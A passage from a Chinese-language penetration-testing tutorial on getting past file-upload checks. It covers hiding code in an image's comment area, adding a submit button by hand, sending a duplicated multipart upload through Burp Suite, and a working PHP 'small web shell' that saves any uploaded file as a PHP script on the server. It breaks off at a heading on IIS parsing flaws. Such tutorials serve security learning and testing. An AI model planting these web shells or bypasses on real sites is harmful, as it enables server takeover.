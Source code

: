 - 对渲染、加载测试攻击：可以用图像处理软件对一张图片进行代码注入，用winhex看数据可以分析出这类工具的原理是，在不破坏文件本身的渲染情况下，找一个空白区进行填充代码，一般会是图片的注释区，对于渲染测试基本上都能绕过，毕竟本身的文件结构是完整的。
- 绕过二次渲染：攻击函数本身，通过上传不完整的图片让其渲染函数暴露，然后攻击之。或者对文件加载器进行溢出攻击。



## 0x07 添加表单提交按钮上传

有些表单没有提交按钮，那么可以在Firebug或者浏览器开发者工具中，在HTML中添加一个submit按钮，代码如下，用来提交，但前提是后台接收表单上传并保存文件。
```html
<input type="submit" value="提交" name='bb'>
```

然后就可以上传文件了。



## 0x08 双文件上传

用Burpsuite拦截，将请求体中，被WebKitFormBoundary...包围起来的部分复制，然后在Submit之前再粘贴一份，修改文件名等信息，然后发送即可，第二次发送的可能可以绕过一些检查。



## 0x09 突破文件大小限制

上传小Webshell，再上传大Webshell上传小Webshell，以绕过上传过程中对文件大小等限制，从而能够更加有效上传大Webshell。小Webshell：
```php
<html>
<head>
<title>PHP小马 - ExpDoor.com</title>
</head>
<body>
<form action="" method="post" enctype="multipart/form-data">
<label for="file">filename:</label>
<input type="file" name="file" id="file">
<br/>
<input type="submit" name="submit" value="Submit">
</form>
</body>
</html>
<?php
if ($_POST){
move_uploaded_file($_FILES["file"]["tmp_name"], "../upload/1.php");
echo "Store in : "."1.php";
}
?>
```



## 0x0a 文件解析漏洞

解析漏洞主要说的是一些特殊文件被IIS、Apache、Nginx在某种情况下解释成脚本文件格式的漏洞。

#### 1. IIS 5.x/6.0解析漏洞
